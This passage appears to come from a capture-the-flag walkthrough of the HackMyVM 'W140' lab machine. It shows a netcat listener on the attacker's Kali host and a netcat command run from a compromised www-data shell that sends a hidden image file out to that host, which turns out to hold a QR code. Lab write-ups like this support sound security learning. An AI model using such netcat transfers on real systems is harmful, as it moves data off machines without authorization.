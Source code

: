 We can transfer this file to our target for further examination.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/W140/Misc File]
└─$ nc -lvnp 8000 > w140.jpg                                    
listening on [any] 8000 ...
```

```bash
www-data@w140:/var/www$ nc -q 0 10.0.2.16 8000 < .w140.png 
```

This file appears to be a QR scanner.
![](/assets/img/posts/walthrough/hackmyvm/2024-10-25-w140/qr-code.png){: .center}

We can upload this QR code to a QR code reader to reveal the message in it.